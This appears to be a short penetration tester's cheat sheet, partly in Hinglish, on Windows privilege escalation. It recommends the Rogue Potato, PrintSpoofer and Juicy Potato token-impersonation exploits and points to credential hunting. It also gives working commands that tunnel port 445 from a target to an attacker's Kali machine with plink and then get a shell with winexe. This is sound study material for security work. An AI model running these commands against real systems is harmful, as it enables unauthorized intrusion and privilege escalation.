 


---

## TL/DR

- Check for stored passwords, Kernel exploits and all the things about token imporsanaion in this document.

-   If the machine is >= Windows 10 1809 & Windows Server 2019 - Try [Rogue Potato](https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html#roguePotato) or [PrintSpoofer]()
    
-   If the machine is < Windows 10 1809 < Windows Server 2019 - Try [Juicy Potato](https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html#juicyPotato)

- Windows m whoami /priv se Impersonate aur CreateGlobal wale token ho to seedha PrintSpoofer (Windows 8.1 ke baad) aur agar 7 chalri ho to juicypotato or hot potato(TCM)
- Wrna agar token ho hi na to same cheez ki haand ke files dekho credentials ke liye
- Wrna Seatbelt.exe



---


# Port Forwarding

[**plink.exe**](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)

-   Copy the plink.exe to the windows machine
    
-   enable the SSH with Root login
    
    ```
     vim /etc/ssh/sshd_config
    ```
    
-   Restart the SSH service
    
    ```
     service ssh restart
    ```
    
-   Run the plink in the windows shell
    
    ```
     .\plink.exe root@kali-ip -R 445:127.0.0.1:445
    ```
    
-   Login and then modify the winexe command
    
    ```
     winexe -U 'admin%password' //127.0.0.1 cmd.exe
    ```


----
